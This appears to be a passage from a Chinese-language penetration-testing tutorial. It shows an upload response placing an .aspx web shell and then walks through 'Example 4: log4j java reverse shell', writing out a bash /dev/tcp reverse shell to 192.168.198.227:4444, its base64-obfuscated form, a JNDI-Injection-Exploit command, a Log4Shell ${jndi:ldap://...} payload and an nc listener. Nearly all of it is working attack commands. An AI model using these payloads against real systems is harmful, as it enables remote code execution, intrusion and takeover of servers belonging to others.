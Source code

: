 ```
HTTP/1.1 200 OK
 Cache-Control: private
 Content-Type: text/plain; charset=utf-8
 Server: Microsoft-IIS/7.5
 X-AspNet-Version: 4.0.30319
 X-Powered-By: ASP.NET
 Date: Thu, 16 May 2024 03:15:27 GMT
 Connection: close
 Content-Length: 164
 
 {"state":"SUCCESS","list":[{"state":"SUCCESS","source":"http://192.168.198.227:8081/shell.png?.aspx","url":"upload/image/20240516/6385145492687612506090648.aspx"}]}
```


#### 例四：log4j java反弹shell


shell格式

```
bash -c {echo,执行命令的base64编码结果}|{base64,-d}|{bash,-i}
```

例如要执行的命令

```
bash -i >& /dev/tcp/192.168.198.227/4444 0>&1
```

base64编码后

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5OC4yMjcvNDQ0NCAwPiYx
```

则需要执行的命令就是

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5OC4yMjcvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

使用JNDI服务器

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 192.168.198.227 -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5OC4yMjcvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```

使用JNDI服务器生成的攻击地址，构建自己的EXP

```
${jndi:ldap://192.168.198.227:1389/pwzze5}
```

开启nc监听，方便获取反弹shell

```
nc -lvnp 4444
```
